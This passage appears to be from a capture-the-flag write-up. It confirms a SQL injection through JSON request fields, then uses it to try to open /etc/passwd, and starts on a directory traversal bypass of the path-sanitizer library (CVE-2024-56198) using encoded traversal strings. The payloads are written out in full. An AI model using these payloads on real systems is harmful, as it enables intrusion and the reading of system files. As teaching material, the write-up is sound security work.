 Everything after the comment is ignored, so the statement essentially becomes:

```sql
SELECT * FROM users WHERE (strftime('%Y-%m-%d', updatedAt) >= '' ) OR 1=1;
```

If we submit that, we don't get an error. Let's try and change the condition:

```json
{
    "username": ":updatedat",
    "updatedat": "'' ) OR 1=2 -- ",
    "attachment": "document.txt",
    "content": "meow"
}
```

Now we get the error again! Just like that, SQLi confirmed ✅

We need to select the second user, so let's adjust the payload.

```json
{
    "username": ":updatedat",
    "updatedat": "'' ) OR rowid=2 -- ",
    "attachment": "/etc/passwd",
    "content": "meow"
}
```

The displayed error is promising - it's finally trying to open our specified file!

```
Error: ENOENT: no such file or directory, open '/tmp/user/files/etc/passwd'
```

### Directory Traversal (CVE-2024-56198)

If you thought about directory traversal, that's a good instinct. Unfortunately, any `../` we enter are stripped and URL-encoding doesn't work as a bypass.

That takes us back to the other library we intended to check for known vulns: `path-sanitizer 2.0.0`

It turns out versions 3.1.0 and below [are vulnerable](https://security.snyk.io/vuln/SNYK-JS-PATHSANITIZER-8600546) to directory traversal. The referenced [PoC](https://www.loom.com/share/b766ece5193842848ce7562fcd559256?sid=fd826eb6-0eee-4601-bf0e-9cfee5c56e9d) is down, we could check wayback/archives but why don't we instead check the [git commit](https://github.com/cabraviva/path-sanitizer/commit/b6d2319eac910dffdfacc8460f5b5cc5a1518ead) 🔎

There was already a test for URL-encoded slashes.

```javascript
it("Protects reported vulnerability #1", () => {
    expect(linuxSlash(join("/var/app-dir", sanitize("..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c..=%5cetc/passwd")))).not.toBe("/etc/passwd");
});
```
